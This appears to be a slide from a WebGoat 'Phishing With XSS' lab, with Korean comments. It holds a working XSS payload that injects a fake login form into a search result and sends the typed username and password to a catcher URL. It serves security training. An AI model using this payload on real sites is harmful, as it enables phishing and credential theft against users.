

Phishing With XSS

</form><script>function hack(){ XSSImage=new Image; XSSImage.src="http://localhost/WebGoat/catcher?PROPERTY=yes&user="+ document.phish.user.value + "&password=" + document.phish.pass.value + ""; alert("Thank you for your information!. User Name = " + document.phish.user.value + "Password = " + document.phish.pass.value);}
//가짜 피싱 정보가 넘어올 스크립트 함수선언
</script><form name="phish"><br><br><HR><H3>This result needs login:</H3 ><br><br>ID:<br><input type="text“
//검색결과를 보기위해서는 로그인이 필요하다는 가짜 메시지 출력
 name="user"><br>Password:<br><input type="password" name = "pass"><br><input type="submit" name="login" value="login" onclick="hack()"></form><br><br><HR>
//가짜 로그인 창에 들어온 정보는 hack()함수에 전달된다.

위와 같은 코드를 검색창에 넣을 시, 스크립트 언어가 작동한다.